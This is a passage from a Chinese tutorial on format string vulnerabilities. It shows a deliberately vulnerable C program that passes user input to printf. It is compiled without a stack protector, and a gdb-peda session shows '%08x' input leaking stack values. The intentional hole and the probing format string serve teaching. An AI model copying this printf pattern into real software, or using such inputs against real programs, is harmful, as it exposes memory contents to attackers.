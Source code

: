 # 格式化字符串

### 泄露内存

#### 泄露栈内存

源程序

```
#include<stdio.h>
void main() {
    char format[128];
    int arg1 = 1, arg2 = 0x88888888, arg3 = -1;
    char arg4[10] = "ABCD";
    scanf("%s", format);
    printf(format, arg1, arg2, arg3, arg4);
    printf("\n");
}
```

编译：

```
gcc -m32 -fno-stack-protector -no-pie -g -o formatSee formatSee.c
```

第一步：在printf函数处先下断点，r执行程序后输入`%08x.%08x.%08x.%08x.%08x`，观察此时栈中的数据

```
gdb-peda$ b printf
Breakpoint 2 at 0xf7e50030
gdb-peda$ r
Starting program: /home/dililearngent/Desktop/format/formatSee 
%08x.%08x.%08x.%08x.%08x

[----------------------------------registers-----------------------------------]
EAX: 0xffffce34 ("%08x.%08x.%08x.%08x.%08x")
EBX: 0x0 
ECX: 0x1 
EDX: 0xf7fb887c --> 0x0 
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffcec8 --> 0x0 
ESP: 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
EIP: 0xf7e50030 (<printf>:	call   0xf7f24389)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e5002b <fprintf+27>:	ret    
   0xf7e5002c:	xchg   ax,ax
   0xf7e5002e:	xchg   ax,ax
=> 0xf7e50030 <printf>:	call   0xf7f24389
   0xf7e50035 <printf+5>:	add    eax,0x166fcb
   0xf7e5003a <printf+10>:	sub    esp,0xc
   0xf7e5003d <printf+13>:	mov    eax,DWORD PTR [eax-0x68]
   0xf7e50043 <printf+19>:	lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 ("%08x.%08x.%08x.%08x.%08x")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 ("%08x.%08x.%08x.%08x.%08x")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
```